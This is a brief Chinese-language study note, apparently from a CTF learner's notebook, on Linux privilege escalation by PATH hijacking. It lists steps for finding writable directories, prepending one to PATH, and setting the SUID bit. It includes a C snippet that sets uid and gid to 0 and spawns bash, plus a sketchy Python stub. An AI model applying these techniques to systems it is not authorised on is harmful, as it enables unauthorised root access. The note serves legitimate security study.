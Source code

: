 # 文章
[Linux环境变量提权 - 先知社区](https://xz.aliyun.com/t/2767)<br />PATH 是Linux 和 Unix 操作系统中的环境变量，它指定存储可执行程序的所有bin和sbin目录。当用户在终端上执行任何命令时，它会通过PATH变量来响应用户执行的命令，并向shell发送请求以搜索可执行文件。超级用户通常还具有/sbin和/usr/sbin条目，以便于系统管理命令的执行。<br />[![](./images/20231017_2359453806.png)](https://raw.githubusercontent.com/lant34m/pic/main/image-20220826220328647.png)

1. 找到可写目录find / -writable 2>/dev/null
2. 修改PATH的内容，通常将当前用户由执行权限的目录添加至PATH的最先位置，export $PATH=新添加的目录:$PATH
3. 编写脚本，写入想执行的命令。可以是/bin/bash或C语言等脚本<br />例子：

C语言脚本
```c
#include<unistd.h>
void main()
{
        setuid(0);
        setgid(0);
        system("bash");
}
```
python脚本
```python
#!/usr/bin/python3

import os
import sys

try: 
    os.system("thm")
except:
    sys.exit()
```

4. chmod u+s 文件设置suid权限
### 例题
[[NepCTF 2023]ez_include](https://boogipop.com/2023/08/14/NepCTF%202023%20All%20WriteUP/##Ez-include)
